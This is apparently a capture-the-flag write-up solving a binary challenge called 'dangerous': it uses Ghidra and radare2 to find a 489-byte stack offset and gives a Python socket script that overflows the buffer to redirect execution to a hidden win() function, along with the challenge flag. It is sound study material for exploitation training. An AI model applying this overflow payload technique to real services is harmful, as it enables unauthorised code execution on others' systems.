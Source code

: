 # Dangerous
75 points

Hey! Listen!

Connect here:

...

dangerous


## Flag 
```shell
flag{legend_of_zelda_overflow_of_time}
```

## Solution
Grab a copy of Ghidra if you haven't already (https://ghidra-sre.org/). If this is new to you, watch a few videos, read the docs, try some tutorials. Radar2 (https://github.com/radareorg/radare2) comes installed with Kali.

Firsts things first, file and strings:
```shell
kali@kali:~/Desktop$ file dangerous 
dangerous: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2b7e7edf071a5dd08228a996ed76400783fba08c, for GNU/Linux 3.2.0, stripped
kali@kali:~/Desktop$ strings -n 10  dangerous 
...
What's your name?
Uh-oh... something's not right... good luck...
./flag.txt
...
```

The "What's your name?"  and "./flag.txt" strings look promising. Find these in the binary with Ghidra. 

Function starting at 0x004011d6, let's call it main() and function starting at 0x00401312, let's call it win(). main() prints some stuff to the screen and gets the user's input. win() accesses 'flag.txt' and prints it. There is no connection between the two. Thus win() is an impossible jump. The only way to get to it is to force the jump or get a shell, something exploit-y. Other than that, the code is pretty simple. 

Let's move to dynamic analysis. Run radar2 and set a breakpoint close to the end of main():
```shell
kali@kali:~/Desktop$ r2 -d dangerous 
Process with PID 1386 started...
= attach 1386 1386
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
Warning: r_bin_file_hash: file exceeds bin.hashlimit
[0x7f67068be090]> db 0x0040130c
[0x7f67068be090]> dc
What's your name?

```

Enter some recognizable patten, I use 'a' on repeat. Not too many, don't want to break it yet. Hit enter and program will continue to the breakpoint.
```shell
It's dangerous to go alone! Take this, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

         █   
        ███  
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
      ███████                                                                                                                                                                                                                              
      █ ███ █                                                                                                                                                                                                                              
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
                                                                                                                                                                                                                                           
hit breakpoint at: 40130c  
```

Radar2 has a decent visual interface, access it using vv. 

![a92f6f8378ba50cad79443d76d69066f.png](../../_resources/b0ae20ef4ccf4e7aacd1924035da4204.png)

Big offset between stack pointer and base pointer. What's in this space? Well, for one, our input. Really close to the base pointer and thus the return address for main().

![ce28a5f22b272b934cc24aa975485fd3.png](../../_resources/1d78bf561a2a482fba2577929c6763bf.png)

Our input shows up at 0x7fffbe5ce918 and the base pointer is at 0x7ffbe5ceb00. 

0xeb00 - 0xe918 + 1 = 489 bytes. 

If we craft an input that is 489 bytes, plus 8 more to overwrite the base pointer then we can tack on the instruction we want to jump to when main() returns - i.e. win().
```python
import socket
from time import sleep

eip = b'\x12\x13\x40\x00\x00\x00\x00\x00' 
# 489 for the buffer to fill 
# and another 8 bytes to get pass the base pointer
c = 489 + 8 
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('jh2i.com', 50011))
sleep(0.25)
data = client.recv(5000)
print(data.decode())
text = ('a'*c).encode()
payload = text + eip + b'\n'
client.send(payload)
sleep(0.25)
data = client.recv(5000)
print(data.decode())
```

And what do we get for all our hard work? A flag!
